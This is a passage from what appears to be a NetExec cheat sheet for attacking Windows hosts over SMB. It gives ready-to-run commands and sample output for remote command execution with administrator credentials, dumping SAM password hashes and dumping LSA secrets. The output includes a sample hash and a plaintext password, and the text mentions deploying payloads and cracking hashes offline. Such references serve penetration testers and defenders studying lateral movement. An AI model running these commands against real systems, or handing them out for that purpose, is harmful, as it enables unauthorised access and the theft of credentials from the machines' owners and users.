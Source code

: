 **Use Case**: Efficiently identifies valid credentials without triggering account lockouts.

### 8. Remote Command Execution
**Purpose**: Execute commands on a target system.

**Command**:
```bash
nxc smb 192.168.1.100 -u 'administrator' -p 'P@ssw0rd' -x 'whoami'
```
**Explanation**:
- Executes `whoami` via SMB with admin credentials.
- Example output:
  ```
  SMB         192.168.1.100 445 DC01 [+] example.com\administrator:P@ssw0rd (Pwn3d!)
  SMB         192.168.1.100 445 DC01 [+] Executed command
  SMB         192.168.1.100 445 DC01 example.com\administrator
  ```

**PowerShell Example**:
```bash
nxc smb 192.168.1.100 -u 'administrator' -p 'P@ssw0rd' -X 'Get-Process'
```
**Use Case**: Gathers system information or deploys payloads post-exploitation.

### 9. SAM Hash Dumping
**Purpose**: Extract local account hashes from the SAM database.

**Command**:
```bash
nxc smb 192.168.1.100 -u 'administrator' -p 'P@ssw0rd' --sam
```
**Explanation**:
- Dumps SAM hashes for local accounts (requires admin privileges).
- Example output:
  ```
  SMB         192.168.1.100 445 DC01 [+] example.com\administrator:P@ssw0rd (Pwn3d!)
  SMB         192.168.1.100 445 DC01 [*] Dumping SAM hashes
  SMB         192.168.1.100 445 DC01 Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  ```

**Use Case**: Obtains hashes for offline cracking with tools like Hashcat.

### 10. LSA Secrets Dumping
**Purpose**: Extract sensitive data like cached credentials from LSA.

**Command**:
```bash
nxc smb 192.168.1.100 -u 'administrator' -p 'P@ssw0rd' --lsa
```
**Explanation**:
- Dumps LSA secrets, potentially revealing plaintext credentials.
- Example output:
  ```
  SMB         192.168.1.100 445 DC01 [+] example.com\administrator:P@ssw0rd (Pwn3d!)
  SMB         192.168.1.100 445 DC01 [*] Dumping LSA secrets
  SMB         192.168.1.100 445 DC01 DefaultPassword:(user1:Password123)
  ```

